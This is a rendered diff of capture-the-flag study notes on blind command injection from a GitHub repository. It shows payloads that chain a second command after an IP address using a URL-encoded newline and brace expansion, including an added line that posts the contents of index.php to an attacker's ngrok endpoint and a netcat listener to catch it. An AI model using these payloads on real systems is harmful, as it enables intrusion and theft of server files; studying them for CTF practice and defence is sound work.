

Before and after one commit to qquang/CTFs, a Markdown page: Note/blind_cmdi.md, the part around the change. Drawn GitHub-style; pictures changed too: Note/img/1.png (added); blank space fills up the shorter version.

```diff
--- a/Note/blind_cmdi.md
+++ b/Note/blind_cmdi.md
@@ -10,3 +10,11 @@ We can then use brace expansion to bypass space and execute our command.
 
 EX:
 payload :``8.8.8.8%0A{curl,127.0.0.1:9999}``
+
+send file contents as body entity using cURL.
+
+payload: ``8.8.8.8%0A{curl,--data,"@index.php",[your ngrok]}
+
+Then, to capture requests, use netcat: ``nc -nlvp 9999``
+
+![img](./img/1.png)
```
